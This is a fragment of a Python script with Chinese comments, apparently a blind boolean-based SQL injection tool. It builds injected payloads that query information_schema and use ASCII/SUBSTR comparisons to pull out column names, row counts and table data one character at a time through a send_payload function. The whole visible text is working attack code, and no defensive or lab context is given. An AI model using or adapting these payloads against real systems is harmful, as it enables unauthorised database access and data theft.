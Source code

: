 ```
            if send_payload(payload):
                print(f"{table_name}的第{i+1}列名长度为：",column_length)
                column_length_list.append(column_length)
                break
            column_length+=1
    return column_length_list
#获取列名
def get_column_name(database,table_name,column_num,column_length_list):
    column_name_list=[]
    for i in range(0,column_num):
        column_name=""
        for j in range(1,column_length_list[i]+1):
            for char in chars:
                #print(char)
                #payload=f"' or (ascii(substr((select column_name from information_schema.columns where table_name='{table_name}' limit {i},1){j},1))={ord(char)} --+"
                payload = f"' OR {ord(char)} = (ASCII(SUBSTR((SELECT column_name from information_schema.columns WHERE table_name='{table_name}' limit {i},1),{j},1)))--+"
                if send_payload(payload):
                    column_name=column_name+char
                    print(f"{table_name}表的第{i+1}列的名为{column_name}")
                    break
        column_name_list.append(column_name)
    return column_name_list

#获取数据个数
def get_data_num(database,table_name,column_name_list):
    data_num_list=[]
    for column_name in column_name_list:
        data_num=0
        while True:
            payload=f"'or (select count({column_name}) from {database}.{table_name}) ={data_num}--+"
            if send_payload(payload):
                print(f"{table_name}表的{column_name}列共有{data_num}条数据")
                data_num_list.append(data_num)
                break
            data_num +=1
    return data_num_list

#获取数据
def get_data(database,table_name,column_name_list,data_num_list):
    for i in range(len(data_num_list)):
        for j in range(data_num_list[i]):
            data_length=0
            while True:
                payload=f"'or (select length({column_name_list[i]}) from {database}.{table_name} limit {j},1) ={data_length}--+"
                if send_payload(payload):
                    print(f"{table_name}表的第{j+1}条数据的第{i+1}列长度为{data_length}")
                    break
                data_length +=1
            data=''
            for k in range(data_length):
                for char in chars:
                    #print(char)
                    payload_=f"'or (ascii(substr(cast((select {column_name_list[i]} from {database}.{table_name} limit {j},1) as char),{k+1},1)))={ord(char)}--+"
                    if send_payload(payload_):
                        data+=char
                        #print(f"{table_name}表的第{j+1}列数据的第{i+1}列为",data)
                        #print("{}表的{}列第{}条数据的值为:".format(table_name, column_name_list[i], j + 1), data)
```